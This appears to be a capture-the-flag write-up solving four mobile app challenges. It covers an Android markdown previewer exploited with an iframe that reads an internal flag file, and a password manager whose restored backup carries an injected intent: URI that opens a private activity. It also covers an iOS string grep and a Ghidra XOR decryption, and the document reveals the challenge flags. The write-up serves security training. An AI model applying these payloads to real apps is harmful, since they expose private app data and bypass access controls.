

# Android
## Parse & Pwn


Reversing the apk with `jadx-gui` we only find a single activity

```xml
<activity
    android:theme="@style/Theme.MarkdownPreviewer"
    android:label="@string/app_name"
    android:name="com.mobilehackinglab.markdownpreviewer.MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
</activity>
```

In the `MainActivity` we can see the flag is loaded at `/data/data/com.mobilehackinglab.markdownpreviewer/files/flag.txt` when `onCreate` method is called.

```java
private final void ensureFlagFile() {
    File file = new File(getFilesDir(), "flag.txt");
    if (file.exists()) {
        return;
    }
    FilesKt.writeText$default(file, "dummy", null, 2, null);
}
```

Looking in `MainActivity.kt` we have `markdownToHtml` method which has the following issue.

* `escapeHtml(false)` → raw HTML is NOT escaped
* `sanitizeUrls(false)` → dangerous URLs, including `file://`, are NOT blocked
* The CommonMark parser passes embedded HTML (e.g., `<iframe>, , <script>`) directly into final output

```java
public static final String markdownToHtml(String str) {
    return "<html><head><meta name=\"viewport\" content=\"width=device-width, initial-scale=1\"/><style>html,body{overflow-x:hidden;} body{font-family:sans-serif;padding:16px;} pre,code{white-space:pre-wrap;word-break:break-word;} *{max-width:100%;}</style></head><body>" + HtmlRenderer.builder().escapeHtml(false).sanitizeUrls(false).build().render(Parser.builder().build().parse(str)) + "</body></html>";
}
```

Looking at the WebView configuration we find some issues:

* `setAllowFileAccess(true)`	WebView can load `file://` URIs, including internal app files
* `shouldOverrideUrlLoading` → false	WebView will follow any URL, including `file:///data/`
* `JavaScriptEnabled(true)`	Increases attack surface (though not required for this exploit)

```java
public static final WebView WebViewContainer$lambda$14$lambda$13(Context context, MutableState mutableState, Context it) {
    Intrinsics.checkNotNullParameter(it, "it");
    WebView webView = new WebView(context);
    webView.getSettings().setJavaScriptEnabled(true);
    webView.getSettings().setAllowFileAccess(true);
    webView.getSettings().setLoadWithOverviewMode(true);
    webView.getSettings().setUseWideViewPort(true);
    webView.setHorizontalScrollBarEnabled(false);
    webView.setWebViewClient(new WebViewClient() { // from class: com.mobilehackinglab.markdownpreviewer.MainActivityKt$WebViewContainer$1$1$1$1
        @Override // android.webkit.WebViewClient
        public boolean shouldOverrideUrlLoading(WebView view, WebResourceRequest request) {
            return false;
        }
    });
    mutableState.setValue(webView);
    return webView;
}
```
The WebView is effectively configured as a full HTML renderer with local file read access. We craft a malicious markdown file.

```xml
<iframe src="file:///data/data/com.mobilehackinglab.markdownpreviewer/files/flag.txt"
        width="100%" height="500">
</iframe>
```

after crafting `exploit.md` we push it into the device

```bash
adb push exploit.md /sdcard/Download/
exploit.md: 1 file pushed, 0 skipped. 0.5 MB/s (131 bytes in 0.000s)
```

Next we load the file and select our file and we get the flag.window.


The WebView rendered the iframe, retrieving the internal file and displaying the flag text within the preview 

## Tide Lock


Reversing the apk we find several `Activities`.
* `MainActivity`.
* `LockerActivity`
* `CreateMasterPasswordActivity`
* `FlagActivity`
* `EditPasswordActivity`

```xml
<activity
	android:name="com.mobilehackinglab.yay.tidelock.MainActivity"
	android:exported="true">
	<intent-filter>
		<action android:name="android.intent.action.MAIN"/>
		<category android:name="android.intent.category.LAUNCHER"/>
	</intent-filter>
</activity>
<activity
	android:name="com.mobilehackinglab.yay.tidelock.LockerActivity"
	android:exported="false"/>
<activity
	android:name="com.mobilehackinglab.yay.tidelock.CreateMasterPasswordActivity"
	android:exported="false"/>
<activity
	android:name="com.mobilehackinglab.yay.tidelock.FlagActivity"
	android:exported="false"/>
<activity
	android:name="com.mobilehackinglab.yay.tidelock.EditPasswordActivity"
	android:exported="false"/>
```

The app allows us to create a password and login. The app also offers a backup feature, which exports all entries to external storage in a readable JSON file in `PasswordRepository`. The backup file is written to external storage, which is:

* readable by the user,
* modifiable by the user,
* and modifiable by any app with storage access.

There is no integrity protection, no signatures, and no encryption on the backup.

```java
public final boolean yaybackupentriesyay() {
	String json = this.yaygsonyay.toJson(yayloadentriesyay());
	File file = new File(this.yaycontextyay.getExternalFilesDir(null), this.yaybackupfileyay);
	if (file.exists()) {
		file.delete();
	}
	try {
		Intrinsics.checkNotNull(json);
		FilesKt.writeText$default(file, json, null, 2, null);
		return true;
	} catch (Exception e) {
		e.printStackTrace();
		return false;
	}
}
```

This means the restored data is simply trusted

```java
public final boolean yayrestoreentriesyay() {
	File file = new File(this.yaycontextyay.getExternalFilesDir(null), this.yaybackupfileyay);
	if (!file.exists()) {
		return false;
	}
	try {
		Object fromJson = this.yaygsonyay.fromJson(FilesKt.readText$default(file, null, 1, null), new TypeToken<List<? extends PasswordEntry>>() { // from class: com.mobilehackinglab.yay.tidelock.PasswordRepository$yayrestoreentriesyay$yaytypeyay$1
		}.getType());
		Intrinsics.checkNotNullExpressionValue(fromJson, "fromJson(...)");
		yaysaveentriesyay((List) fromJson);
		return true;
	} catch (Exception e) {
		e.printStackTrace();
		return false;
	}
}
```

The manifest contains a private, non-exported activity which we need to open to get a flag. 
> NB: We cannot use Frida since we cannot gain root access in the remote device. If we try patching the apk with objection we will have to unistall the first one which will remove the flag.txt file. So we have to find a way to open `FlagActivity` without any of those options.

```xml
<activity
    android:name="com.mobilehackinglab.yay.tidelock.FlagActivity"
    android:exported="false"/>
```

Marking it as `exported="false"` prevents other apps from launching it directly. However, Android supports the `intent:` URI syntax a schema designed to allow links inside apps to launch internal components. If the app opens user-supplied URLs using `startActivity()`, then any unvalidated link that is restored from backup can be used to trigger internal activities from inside the app itself. This bypasses the exported restriction because the calling UID is the same as the owning app.

Loking at the `PasswordDetailDialogFragment`. We notice the following on `onViewCreated$lambda$7`.

* Get the URL: It retrieves the website URL ,which we injected with the intent: URI, from the `yayentryyay` object.
* Create the Intent: It uses `Intent.parseUri()` with the URL string. Since the string starts with intent:, it successfully creates a malicious Intent targeting FlagActivity.
* Launch the Intent: It calls `startActivity(intent)`, which launches the private activity because the call originates from the app's own UID.

```java
public static final void onViewCreated$lambda$7(final PasswordDetailDialogFragment this$0, View yayviewyay, View view) {
	Intrinsics.checkNotNullParameter(this$0, "this$0");
	Intrinsics.checkNotNullParameter(yayviewyay, "$yayviewyay");
	PasswordEntry passwordEntry = this$0.yayentryyay;
	if (passwordEntry == null) {
		Intrinsics.throwUninitializedPropertyAccessException("yayentryyay");
		passwordEntry = null;
	}
	String url = passwordEntry.getUrl();
	if (StringsKt.startsWith$default(url, NativeUtils.INSTANCE.decodeScheme(new byte[]{67, 68, 94, 79, 68, 94, 16}), false, 2, (Object) null)) {
		try {
			Intent parseUri = Intent.parseUri(url, 1);
			NativeUtils nativeUtils = NativeUtils.INSTANCE;
			Intrinsics.checkNotNull(parseUri);
			nativeUtils.sanitizeIntent(parseUri);
			parseUri.addFlags(268435456);
			yayviewyay.getContext().startActivity(parseUri);
			return;
		} catch (URISyntaxException e) {
			e.printStackTrace();
			Toast.makeText(this$0.getContext(), "Invalid URL", 0).show();
			return;
		}
	}
	if (StringsKt.startsWith$default(url, NativeUtils.INSTANCE.decodeScheme(new byte[]{66, 94, 94, 90, 16, 5, 5}), false, 2, (Object) null) || StringsKt.startsWith$default(url, NativeUtils.INSTANCE.decodeScheme(new byte[]{66, 94, 94, 90, 89, 16, 5, 5}), false, 2, (Object) null)) {
		ExecutorService newSingleThreadExecutor = Executors.newSingleThreadExecutor();
		final Handler handler = new Handler(Looper.getMainLooper());
		newSingleThreadExecutor.execute(new Runnable() { // from class: com.mobilehackinglab.yay.tidelock.PasswordDetailDialogFragment$$ExternalSyntheticLambda0
			@Override // java.lang.Runnable
			public final void run() {
				PasswordDetailDialogFragment.onViewCreated$lambda$7$lambda$6(PasswordDetailDialogFragment.this, handler);
			}
		});
		return;
	}
	Toast.makeText(this$0.getContext(), "Invalid URL", 0).show();
}
```

The backup files are located at.

```bash
shell:/sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files$ cat passwords.json
[{"password":"12121","url":"https://gshas","username":"1212","website":"gmail"},{"password":"binder","url":"https://exploit.com","username":"binder","website":"exploit"}]
```

we pull the file 

```bash
adb pull /sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files/passwords.json .
/sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files/passwords.json: 1 file pulled, 0 skipped. 0.0 MB/s (170 bytes in 0.227s)
```

we edit the json file and push it back

```bash
adb push passwords.json /sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files/
passwords.json: 1 file pushed, 0 skipped. 0.9 MB/s (229 bytes in 0.000s)
```

we confirm the file

```bash
shell:/sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files$ cat passwords.json 
[{"password":"12121","url":"https://gshas","username":"1212","website":"gmail"},{"password":"binder","url": "intent:#Intent;component=com.mobilehackinglab.yay.tidelock/.FlagActivity;end","username":"binder","website":"exploit"}]
```

This is the list of our data now.


This is triggered when we click fetch favicon.


Finally the activity is launched with the flag


# iOS

## Link Liar


We unzip the `ipa` file as usual

```bash
unzip Linkliar.ipa
```

```bash
plistutil -i Info.plist -o Info.xml
```

We check the `Info.xml`. to see is there is anything interesting but none

```xml
cat Info.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>BuildMachineOSBuild</key>
	<string>25A362</string>
	<key>CFBundleDevelopmentRegion</key>
	<string>en</string>
	<key>CFBundleDisplayName</key>
	<string>Linkliar</string>
	<key>CFBundleExecutable</key>
	<string>Linkliar</string>
	<key>CFBundleIcons</key>

	...

	</array>
	<key>UISupportedInterfaceOrientations~iphone</key>
	<array>
		<string>UIInterfaceOrientationPortrait</string>
		<string>UIInterfaceOrientationLandscapeLeft</string>
		<string>UIInterfaceOrientationLandscapeRight</string>
	</array>
</dict>
</plist>
```

Next we try to grep for the flag format and boom there we go. We get the flag

```bash
strings Linkliar | grep -i "MHL" -A 5
MHL{h34d3r_
s0_l0ng_th4
t_1t_0v3rfl0ws}
%s%s%s
POST
application/json
```

## Broke lesnor 



Reversing the binary with ghidra. We find an interesting function `_flag` and try to analyze it deeply. The code initializes the XOR key as `0x5a`. However, it checks if the pointer to `_flag` matches the actual address of the function. In a normal execution flow, this is always true. Therefore, the real key used for decryption is `0x5b`.

```c
void _flag(void)

{
  undefined8 uVar1;
  ulong uVar2;
  undefined8 extraout_x1;
  long lVar3;
  byte bVar4;
  undefined1 auVar5 [16];
  undefined *local_70;
  undefined8 local_68;
  code *local_60;
  undefined *puStack_58;
  undefined8 local_50;
  byte local_47 [30];
  undefined1 local_29;
  long local_28;
  
  lVar3 = 0;
  local_28 = *(long *)PTR____stack_chk_guard_1000100b8;
  bVar4 = 0x5a;
  if (DAT_1000157d0 == _flag) {
    bVar4 = 0x5b;
  }
  do {
    local_47[lVar3] = bVar4 ^ (&DAT_10000e0d8)[lVar3];
    lVar3 = lVar3 + 1;
  } while (lVar3 != 0x1e);
  local_29 = 0;
  _NSLog(&cf_FLAG:%s);
  _objc_msgSend$stringWithUTF8String:(&_OBJC_CLASS_$_NSString,extraout_x1,local_47);
  auVar5 = _objc_retainAutoreleasedReturnValue();
  uVar1 = auVar5._0_8_;
  uVar2 = _objc_msgSend$hasPrefix:(uVar1,auVar5._8_8_,&cf_MHL{);
  if ((uVar2 & 1) != 0) {
    local_70 = PTR___NSConcreteStackBlock_1000100a0;
    local_68 = 0xc2000000;
    local_60 = ___flag_block_invoke;
    puStack_58 = &___block_descriptor_40_e8_32s_e5_v8_?0l;
    local_50 = _objc_retain(uVar1);
    _dispatch_async(PTR___dispatch_main_q_1000100c0,&local_70);
    _objc_release(local_50);
  }
  _objc_release(uVar1);
  if (*(long *)PTR____stack_chk_guard_1000100b8 != local_28) {
                    /* WARNING: Subroutine does not return */
    ___stack_chk_fail();
  }
  return;
}
```

To be absolutely sure about the key derivation, we looked at the ARM64 assembly instructions. The logic was even clearer here.The `cinc` (Conditional Increment) instruction says: "If the comparison was equal (EQ), increment `w9` by 1."

> `0x5A + 1 = 0x5B`

```c
100004104 a9 83 1e f8     stur       x9,[x29, #local_28]
100004108 89 00 00 b0     adrp       x9,0x100015000
10000410c 29 e9 43 f9     ldr        x9,[x9, #0x7d0]=>DAT_1000157d0
100004110 0a 00 00 90     adrp       x10,0x100004000
100004114 4a 91 03 91     add        x10,x10,#0xe4
100004118 3f 01 0a eb     cmp        x9,x10
10000411c 49 0b 80 52     mov        w9,#0x5a
100004120 29 15 89 1a     cinc       w9,w9,eq
```
Further down, we see the XOR operation

```c
100004124 4a 00 00 d0     adrp       x10,0x10000e000
100004128 4a 61 03 91     add        x10,x10,#0xd8
10000412c ab df 00 d1     sub        x11,x29,#0x37
				LAB_100004130                                   XREF[1]:     100004144(j)  
100004130 4c 69 68 38     ldrb       w12,[x10, x8, LSL ]=>DAT_10000e0d8               = 16h
																				= 13h
100004134 2c 01 0c 4a     eor        w12,w9,w12
100004138 6c 69 28 38     strb       w12,[x11, x8, LSL ]=>local_47
```

The C code pointed us to the encrypted data source: `&DAT_10000e0d8`. We navigate to address `10000e0d8` in Ghidra's data section to retrieve the raw bytes.

```c
						DAT_10000e0d8                                   XREF[1]:     _flag:100004130(R)  
10000e0d8 16              undefined1 16h
						DAT_10000e0d9                                   XREF[1]:     _flag:100004130(R)  
10000e0d9 13              undefined1 13h
10000e0da 17              ??         17h
10000e0db 20              ??         20h     
10000e0dc 3d              ??         3Dh    =
10000e0dd 6b              ??         6Bh    k
10000e0de 29              ??         29h    )
10000e0df 36              ??         36h    6
10000e0e0 3a              ??         3Ah    :
10000e0e1 2f              ??         2Fh    /
10000e0e2 04              ??         04h
10000e0e3 28              ??         28h    (
10000e0e4 2f              ??         2Fh    /
10000e0e5 29              ??         29h    )
10000e0e6 6a              ??         6Ah    j
10000e0e7 35              ??         35h    5
10000e0e8 3c              ??         3Ch    <
10000e0e9 04              ??         04h
10000e0ea 6f              ??         6Fh    o
10000e0eb 28              ??         28h    (
10000e0ec 37              ??         37h    7
10000e0ed 29              ??         29h    )
10000e0ee 04              ??         04h
10000e0ef 39              ??         39h    9
10000e0f0 22              ??         22h    "
10000e0f1 2b              ??         2Bh    +
10000e0f2 3a              ??         3Ah    :
10000e0f3 28              ??         28h    (
10000e0f4 28              ??         28h    (
10000e0f5 26              ??         26h    &
10000e0f6 00              ??         00h
10000e0f7 00              ??         00h
```
With the raw bytes and the Key `(0x5B)` we identified from the assembly `cinc` instruction, the final step was a simple XOR operation.

```python
def solve_flag():
    # 1. The Encrypted Bytes extracted from Ghidra (DAT_10000e0d8)
    encrypted_bytes = [
        0x16, 0x13, 0x17, 0x20, 0x3d, 0x6b, 0x29, 0x36,
        0x3a, 0x2f, 0x04, 0x28, 0x2f, 0x29, 0x6a, 0x35,
        0x3c, 0x04, 0x6f, 0x28, 0x37, 0x29, 0x04, 0x39,
        0x22, 0x2b, 0x3a, 0x28, 0x28, 0x26
    ]

    # 2. The Key derived from the 'cinc' assembly instruction (0x5A + 1)
    xor_key = 0x5B

    # 3. Decryption Loop
    decrypted_chars = []
    for byte in encrypted_bytes:
        # XOR operation as seen in the C pseudo-code
        decrypted_char = chr(byte ^ xor_key)
        decrypted_chars.append(decrypted_char)

    # 4. Join and Print
    flag = "".join(decrypted_chars)
    print(f"[*] Decryption Key: {hex(xor_key)}")
    print(f"[*] Flag: {flag}")

if __name__ == "__main__":
    solve_flag()
```

Running the script produces the final flag

```bash
python solv.py 
[*] Decryption Key: 0x5b
[*] Flag: MHL{f0rmat_str1ng_4slr_bypass}
```


